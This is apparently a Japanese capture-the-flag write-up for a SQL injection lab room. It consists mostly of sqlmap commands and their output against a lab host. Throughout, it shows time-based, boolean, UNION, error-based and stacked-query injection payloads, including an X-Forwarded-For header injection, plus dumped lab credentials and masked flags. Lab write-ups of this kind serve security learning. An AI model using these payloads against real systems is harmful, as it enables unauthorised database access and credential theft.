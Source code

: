 #### 1
```
sqlmap -r s.req -p username --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.2#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---------- snip ----------

[23:28:31] [INFO] parsing HTTP request from 's.req'
sqlmap identified the following injection point(s) with a total of 99 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=name' AND (SELECT 9451 FROM (SELECT(SLEEP(5)))Fanc) AND 'BhIX'='BhIX&password=pass
---

---------- snip ----------

Database: sqhell_2
Table: users
[1 entry]
+----+---------------------------------+----------+
| id | password                        | username |
+----+---------------------------------+----------+
| 1  | icantrememberthispasswordcanyou | admin    |
+----+---------------------------------+----------+
```
![image](https://user-images.githubusercontent.com/6504854/234910802-dc397064-7469-494b-bd79-717b1d183642.png)



#### 2
Hintを読むとIPを記録してるとかいてある。X-forwarded-forを追加したところ、Sleepがきいてる。

```
X-Forwarded-For:127.0.0.1';select+sleep(3);#
```

```
sqlmap --dbms mysql --headers="X-forwarded-for:127.0.0.1" -u http://10.10.56.57/terms-and-conditions --dump --risk 1 --level 1
        ___
       __H__                                                                                    
 ___ ___[']_____ ___ ___  {1.7.2#stable}                                                        
|_ -| . [)]     | .'| . |                                                                       
|___|_  [.]_|_|_|__,|  _|                                                                       
      |_|V...       |_|   https://sqlmap.org                                                    

---------- snip ----------
---
Parameter: X-forwarded-for #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1' AND (SELECT 2673 FROM (SELECT(SLEEP(5)))VFMf) AND 'pUCP'='pUCP
---
Database: sqhell_1
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG2:C------------------------------5} |
+----+---------------------------------------------+

```

#### 3
![image](https://user-images.githubusercontent.com/6504854/234926996-5433dd7a-c221-42da-ba16-760861ec12d1.png)

![image](https://user-images.githubusercontent.com/6504854/234927091-e49433eb-dd0d-439e-bf9e-a302d0df5fa8.png)

```
sqlmap --dbms mysql -u http://10.10.56.57/register/user-check?username=admin -p username --dump

---
Parameter: username (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 8387=8387 AND 'joNK'='joNK

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 5498 FROM (SELECT(SLEEP(5)))bqcH) AND 'uivi'='uivi
---
Database: sqhell_3
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG3:9------------------------------8} |
+----+---------------------------------------------+

```

#### 4
数値演算がうごく。
![image](https://user-images.githubusercontent.com/6504854/234930560-452e84c4-385f-4262-98eb-837e6c47d50f.png)
![image](https://user-images.githubusercontent.com/6504854/234930659-5a9c4fed-8472-45a9-b520-96a33b6714fd.png)

SQLmapでとれず。
```
┌──(kali🦝kali)-[~]
└─$ sqlmap -dbms mysql -u http://10.10.56.57/user?id=1 -p id --dump --flush-session

----------------- snip ------------------

---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 9655=9655

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 6365 FROM (SELECT(SLEEP(5)))HOws)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-8134 UNION ALL SELECT CONCAT(0x717a786a71,0x486a4c706e684179424c69766c464b55436e55684b55734c685273484843714e73545a4d75767458,0x71766a6a71),NULL,NULL-- -
---
Database: sqhell_4
Table: users
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | password | admin    |
+----+----------+----------+
```
usersテーブルは3カラムでflagはない。union selectを元にたぶんFLAGテーブルかフィールドFLAGを含むテーブルがあるのではというあてずっぽうでガチャガチャする。

![image](https://user-images.githubusercontent.com/6504854/234960030-1ab47f3a-d563-4c3d-8c07-c497bffbce08.png)

この問題が一番難しく、答え見て修正した。

#### 5
コメントとSleepがきく。

![image](https://user-images.githubusercontent.com/6504854/234930133-23f86b71-c999-4987-a9b1-5c10609180b7.png)

![image](https://user-images.githubusercontent.com/6504854/234930304-0cae3595-d827-4e88-aec1-7a0a6f680333.png)

```
$ sqlmap --dbms mysql -u http://10.10.56.57/post?id=1 -p id --dump               
 
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 9968=9968

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1 AND GTID_SUBSET(CONCAT(0x716a627871,(SELECT (ELT(7296=7296,1))),0x7176767a71),7296)

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1979 FROM (SELECT(SLEEP(5)))kSmf)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=-6989 UNION ALL SELECT NULL,NULL,CONCAT(0x716a627871,0x5a4348716f52576e476b675742424a5842636765504a416e676c624a4143455976787957414a4370,0x7176767a71),NULL-- -
---
Database: sqhell_5
Table: posts
Database: sqhell_5
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG5:B------------------------------8} |
+----+---------------------------------------------+
```

まいどツールだのみ。

